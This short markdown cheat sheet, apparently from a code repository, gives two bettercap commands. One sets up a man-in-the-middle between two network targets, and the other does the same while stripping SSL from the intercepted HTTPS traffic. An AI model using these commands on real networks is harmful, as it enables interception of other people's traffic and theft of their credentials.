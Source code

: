 # Establish MitM
```bash
# Ensure IP Forwarding is enabled
sudo bettercap -I <Interface Name> -X -G <First Target> -T <Second Target>
```

# Establish MitM and Strip SSL
```bash
# Ensure IP Forwarding is enabled
sudo bettercap -I <Interface Name> -X -G <First Target> -T <Second Target> --proxy-https
```